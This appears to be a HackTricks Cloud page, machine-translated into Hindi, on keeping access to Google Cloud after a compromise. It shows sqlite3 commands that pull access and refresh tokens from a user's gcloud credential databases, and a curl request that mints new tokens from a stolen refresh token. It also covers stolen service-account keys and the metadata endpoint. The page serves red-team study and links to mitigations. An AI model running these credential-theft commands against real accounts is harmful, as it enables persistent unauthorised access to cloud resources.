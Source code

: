 # GCP - गैर-सेवा स्थिरता

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें द्वारा PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

ये उपयोगी तकनीकें हैं, जब आप किसी GCP क्रेडेंशियल या GCP वातावरण में चल रही किसी मशीन को कैसे भंग किया है।

## टोकन हाइजैकिंग

### प्रमाणित उपयोगकर्ता

यदि आप **GCP में प्रमाणित उपयोगकर्ता** के **होम फोल्डर तक पहुंच जाते हैं**, तो **डिफ़ॉल्ट रूप से**, आप **उस उपयोगकर्ता के लिए टोकन प्राप्त कर सकते हैं जब तक आप चाहें** बिना प्रमाणित किए और उस मशीन पर जिससे आप उसके टोकन का उपयोग करते हैं, और यदि उपयोगकर्ता के पास MFA कॉन्फ़िगर किया है तो भी।

यह इसलिए है क्योंकि डिफ़ॉल्ट रूप से आप **नए टोकन उत्पन्न करने के लिए जितनी चाहें बार रिफ़्रेश टोकन का उपयोग कर सकते हैं**।

एक उपयोगकर्ता का **वर्तमान टोकन** प्राप्त करने के लिए आप निम्नलिखित को चला सकते हैं:

{% code overflow="wrap" %}
```bash
sqlite3 ./.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

इस पृष्ठ में देखें कि **gcloud का उपयोग करके इस टोकन का सीधा उपयोग कैसे करें**:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

**नया एक्सेस टोकन उत्पन्न करने** के लिए विवरण प्राप्त करने के लिए निम्नलिखित को चलाएं:
```bash
sqlite3 ./.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

**नए ताजगी से एक्सेस टोकन प्राप्त करने के लिए** रिफ्रेश टोकन, क्लाइंट आईडी, और क्लाइंट सीक्रेट को चलाएं: 

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

फ्रेश टोकन की वैधता को **व्यवस्थापक** > **सुरक्षा** > **Google Cloud सत्र नियंत्रण** में प्रबंधित किया जा सकता है, और डिफ़ॉल्ट रूप से यह 16 घंटे के लिए सेट किया गया है हालांकि यह कभी भी समाप्त नहीं होने के लिए सेट किया जा सकता है:

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### सेवा खाते

प्रमाणित उपयोगकर्ताओं के साथ जैसे ही, यदि आप एक सेवा खाते की निजी कुंजी फ़ाइल को **कंप्रमाइज़** कर लेते हैं तो आप उसे **आम तौर पर जितनी चाहें तवज्जो पा सकते हैं**।\
हालांकि, यदि आप एक सेवा खाते के **OAuth टोकन** को चुरा लेते हैं तो यह और भी दिलचस्प हो सकता है, क्योंकि, यदि डिफ़ॉल्ट रूप से ये टोकन केवल एक घंटे के लिए उपयोगी होते हैं, अगर **शिकार निजी एपीआई कुंजी को हटा देता है, तो OAuh टोकन अब तक वैध रहेगा जब तक यह समाप्त नहीं होता**।

### मेटाडेटा

स्पष्ट है, जब तक आप GCP परिवेश में चल रही मशीन में हैं तब आप **मेटाडेटा एंडपॉइंट से संपर्क करके उस मशीन से जुड़ी सेवा खाते तक पहुंच सकेंगे** (ध्यान दें कि इस एंडपॉइंट में आप एक्सेस कर सकते हैं ओथ टोकन आम तौर पर स्कोप्स द्वारा प्रतिबंधित होते हैं)।

### सुधार

इन तकनीकों के लिए कुछ सुधार की व्याख्या [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2) में की गई है।

## संदर्भ

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी कंपनी का विज्ञापन **HackTricks** में देखना चाहते हैं या **HackTricks को PDF में डाउनलोड** करना चाहते हैं तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) की जांच करें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) का खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें द्वारा PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>
